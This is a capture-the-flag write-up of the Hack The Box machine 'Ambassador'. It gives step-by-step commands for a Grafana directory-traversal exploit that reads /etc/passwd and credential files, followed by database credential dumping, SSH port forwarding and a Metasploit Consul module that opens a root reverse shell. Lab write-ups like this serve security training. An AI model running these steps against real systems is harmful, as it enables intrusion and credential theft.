 Target:10.10.11.182     Ambassador

**Initial Access:**\
nmap 10.10.11.183 -Pn --min-rate=5000 -p-\
Output shows open ports of 22,80,3000,3306

Enumerating these open ports further with nmap:\
nmap 10.10.11.183 -Pn --min-rate=5000 -p 22,80,3000,3306 -sC -sV -oN nmap.ambassador\
Ouput shows: 

PORT     STATE SERVICE VERSION\
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)\
| ssh-hostkey: \
|   3072 29:dd:8e:d7:17:1e:8e:30:90:87:3c:c6:51:00:7c:75 (RSA)\
|   256 80:a4:c5:2e:9a:b1:ec:da:27:64:39:a4:08:97:3b:ef (ECDSA)\
|_  256 f5:90:ba:7d:ed:55:cb:70:07:f2:bb:c8:91:93:1b:f6 (ED25519)\
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))\
|_http-generator: Hugo 0.94.2\
|_http-title: Ambassador Development Server\
|_http-server-header: Apache/2.4.41 (Ubuntu)\
3000/tcp open  ppp?\
3306/tcp open  mysql   MySQL 8.0.30-0ubuntu0.20.04.2

Navigating to port 3000 website redirects us to a /login directory which is a login page.  The page shows that it is running Grafana, and at the bottom right it shows the version is 8.2:

![image](https://user-images.githubusercontent.com/93153300/198725813-8e518d6d-be2f-40a3-b391-ac0884544b2a.png)
  
Let’s check for exploits on grafana:  searchsploit grafana\
searchsploit finds a directory traversal and arbitrary file read:\
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read           | multiple/webapps/50581.py\
Download the exploit:   searchsploit -m 50581.py

Opening the exploit and reading through it shows: 

![image](https://user-images.githubusercontent.com/93153300/198725877-c284a75c-eeb8-4832-8230-07f3bcac6cc8.png)

This confirms that our grafana version 8.2 should work for this exploit.\
Run the exploit: python 50581.py -H http://10.10.11.183:3000  → when prompted for file to read, enter  /etc/passwd for proof of concept:

![image](https://user-images.githubusercontent.com/93153300/198725913-59510f76-4be4-4cbe-b2aa-cc347fa28bc2.png)
 
It works, we get the users on the target.  Let’s try to find the password for the grafana login page.\
Google search ‘what directory is grafana credentials stored in’. \
Found that the credentials are stored in :  /etc/grafana/grafana.ini\
Use the exploit to read this file:  python grafana8.3.py -H http://10.10.11.183:3000  → when prompts for the file to read enter:  /etc/grafana/grafana.ini\
Output is quite a lot, so let’s search for interesting words.  Use control f to search for the word password.  Found credentials: 

![image](https://user-images.githubusercontent.com/93153300/198725945-e84cda65-b1c9-4697-8994-696d2cbf89be.png)
 
The username is admin, password is messageInABottle685427 \
Log into http://10.10.11.183:3000/login with the credentials we found.  It works, we get logged in.

Navigating around the site for a while and not finding much of interest.  Let’s go back to our exploit and see if we can find something else.

Another page that comes up when you google search ‘what directory is grafana credentials stored in’ is /var/lib/grafana/grafana.db.  Run the exploit to read grafana.db file:\
python grafana8.3.py -H http://10.10.11.183:3000   → when prompted for the file to read, enter /var/lib/grafana/grafana.db

It returns a lot of output.  To save some time, use control f to search for keywords.  Searching for mysql immediately finds a username and password for mysql:

![image](https://user-images.githubusercontent.com/93153300/198726180-ae33e033-7c51-49df-b242-7fb8f58446ed.png)
Use these credentials (username grafana, password dontStandSoCloseToMe63221!) to log into mysql:    mysql -h 10.10.11.183 -u grafana -p	→ when prompted for password enter the password.\
It works, we get logged in.   

![image](https://user-images.githubusercontent.com/93153300/198726117-aa4b0820-0282-408e-b593-a9d9ae343cd2.png)

Check the databases:   show databases;

![image](https://user-images.githubusercontent.com/93153300/198726209-bf34650e-1e63-476d-a7db-bb3bd2dee693.png)
 
Select whackywidget: use  whackywidget;\
Check the tables in whackywidget:  show tables;

![image](https://user-images.githubusercontent.com/93153300/198726226-d75d612f-e7c0-4e12-9f27-6d2b22c202c1.png)

Dump the information of table users:  select * from users;

![image](https://user-images.githubusercontent.com/93153300/198726242-80465b57-d9b1-441d-8ee8-3a549ee8e39d.png)

We found developer username and credentials.  Looks like the password is base64 encoded.  Decode it using command:  echo -n "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg=="|base64 -d\
Decoded to plaintext password: anEnglishManInNewYork027468

Let’s try to log into ssh with these credentials.

ssh developer@10.10.11.183   → enter password when prompted

We have shell as developer, open /home/developer/user.txt to get the flag.

![image](https://user-images.githubusercontent.com/93153300/198726260-dea161a5-5b46-4611-8b26-e1f6def77b93.png)
________________________________________________________
**Privilege Escalation:**\
Navigating around to differnet directories /opt has non standard files that leads to a .git.  Let’s check that out:   cd /opt/my-app/.git\
check the files with command:   git log\
Output shows a number of commits.  Commint c982db8eff6f10f8f3a7d802f79f2705e7a21b55 has a title of ‘config script’, config sometimes has interesting information, so let’s check that out:\
git show c982db8eff6f10f8f3a7d802f79f2705e7a21b55\
The output shows a consul command with a token:

![image](https://user-images.githubusercontent.com/93153300/198726273-52beeaa3-7f9d-4072-bd3e-451fde5eb6ac.png)

Check if consul has an exploit with searchsploit:    searchsploit consul  → shows an exploit with metasploit. 

![image](https://user-images.githubusercontent.com/93153300/198726306-354c971b-2a87-4576-8c8b-7a68adb6fc0f.png)

Consul runs on port 8500, from our nmap at the beginning, we know that we do not have that port open.  Let’s check if it’s open on the target shell that we have:   netstat -ln

![image](https://user-images.githubusercontent.com/93153300/198726328-6b674bf3-5025-47cd-8aae-6641a313295d.png)


The output from netstat -ln shows that port 8500 is open but only from 127.0.0.1.  So to make this accessible to us we need to forward that port.   To get our target shell into the port forward: ~c .\  
Next: -L 4444:127.0.0.1:8500\
This means that whenever we go to our 127.0.0.1 at port 4444 then we will be redirected to the target 127.0.0.1 on port 8500.  

![image](https://user-images.githubusercontent.com/93153300/198726345-6c238382-df17-4948-9433-0dac504553ec.png)
Now that we have access to port 8500 on the target, we can continue to perform the exploit we found.  Open metasploit with command:   msfconsole -q. \
To find the exploit in metasploit run:\
search Hashicorp Consul Remote

![image](https://user-images.githubusercontent.com/93153300/198726358-ab07741f-c882-496a-8dee-bb4d7b22ddf3.png)

Choose the exloit:  use multi/misc/consul_service_exec\   
Fill out the exploit with the following commands:\
show options → set lhost tun0 → set lport 443 → set rhosts 127.0.0.1 → set rport 4444 → set acl_token  bb03b43b-1d81-d62b-24b5-39540ee469b5\
It should look like this:

![image](https://user-images.githubusercontent.com/93153300/198726372-89ecd2f6-84c8-48cd-966f-f0a71a1f8d5f.png)


To run the exploit use command: run
We have shell as root, open /root/root.txt to get the flag. 

![image](https://user-images.githubusercontent.com/93153300/198726401-f965cca4-e7b8-4e57-8ed8-c3594e3fd824.png)





